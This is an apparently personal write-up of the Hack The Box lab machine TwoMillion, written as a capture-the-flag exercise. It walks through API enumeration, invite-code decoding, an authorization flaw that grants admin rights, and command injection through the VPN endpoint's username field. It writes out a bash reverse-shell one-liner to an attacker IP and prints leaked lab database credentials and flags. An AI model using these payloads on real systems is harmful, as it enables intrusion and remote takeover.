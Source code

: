 # TwoMillion
## https://www.hackthebox.com/machines/twomillion
After mapping the website 
on page of login :-
simple login form with error in "User not found" ==> you can bruteforce username
by dirb search 
you will find : http://2million.htb/register
also found js function in invite page
after deobfuscate it 
```
function verifyInviteCode(code) {
    var formData = { "code": code };

    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            if (response.status === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                localStorage.setItem('inviteCode', code);
                window.location.href = '/register';
            } else {
                alert("Invalid invite code. Please try again.");
            }
        },
        error: function(response) {
            alert("An error occurred. Please try again.");
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

```
then go to register page 
http://2million.htb/register

with burpe you will git this reqest 
```
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://2million.htb
Connection: close
Referer: http://2million.htb/register
Cookie: PHPSESSID=dro49cpjchla0hbraffbmhqv4v
Upgrade-Insecure-Requests: 1

code=&username=user&email=user%40htb.com&password=user&password_confirmation=user
```
### Curl 
```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate 
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

you got a ROT13-decoded message says : In order to generate the invite code, make a POST request to /api/v1/invite/generate
```
curl -sX POST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc=","format":"encoded"}}  
```

it is base64 decoded invitation code  => `echo N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc= | base64 -d` => `7VPT4-I4FM4-N3Q3K-2KI9G` 

Use the invitation code to register an account

`code=7VPT4-I4FM4-N3Q3K-2KI9G&username=user&email=user%40htb.com&password=user&password_confirmation=user`

GET the `PHPSESSID` from your browser => `0u8rjqr7pid9s7m2eaoavcjecu`
```
curl -sv 2million.htb/api --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq
```


* Connection #0 to host 2million.htb left intact
{
  "/api/v1": "Version 1 of the API"
}
```
curl http://2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq 

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

You find all V1 data

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}
```
```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```
```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com", "is_admin": '1'}' | jq 

{
  "id": 13,
  "username": "user",
  "is_admin": 1
}
```

if you now try `curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq`

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user"}'  
```
```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user;id;"}'  
```

`echo -n "bash -i >& /dev/tcp/10.10.14.48/1234 0>&1" | base64`

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC8xMjM0IDA+JjE=

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

We find **admin password**
ssh to admin with the password

user flag => a2624f25c7983f33de70b88f7b290710

in `/var/mail/admin`
```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
root.txt => f3f590b486fa536eb258bc4abf59e107
